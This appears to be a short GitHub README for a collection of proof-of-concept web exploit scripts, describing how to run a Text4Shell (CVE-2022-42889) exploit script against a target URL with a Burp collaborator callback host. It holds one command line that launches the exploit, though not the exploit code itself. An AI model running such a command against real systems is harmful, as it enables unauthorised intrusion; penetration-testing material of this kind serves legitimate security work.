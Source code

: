 # Web Exploits

POC exploit scripts for web pentesting


## Usage/Examples

Text4Shell A Vulnerability in Java library Apache Commons Text (CVE-2022-42889) 

- Replace the URL containing the {{exploit}} placeholder, which will be replaced with the payload. Replace <collaborator_url> with your controlled URL from Burp, utilized as part of the payload.

```bash
python3 text4shell.py -u http://localhost/text4shell/attack?search={{exploit}} -c <collaborator URL>
```
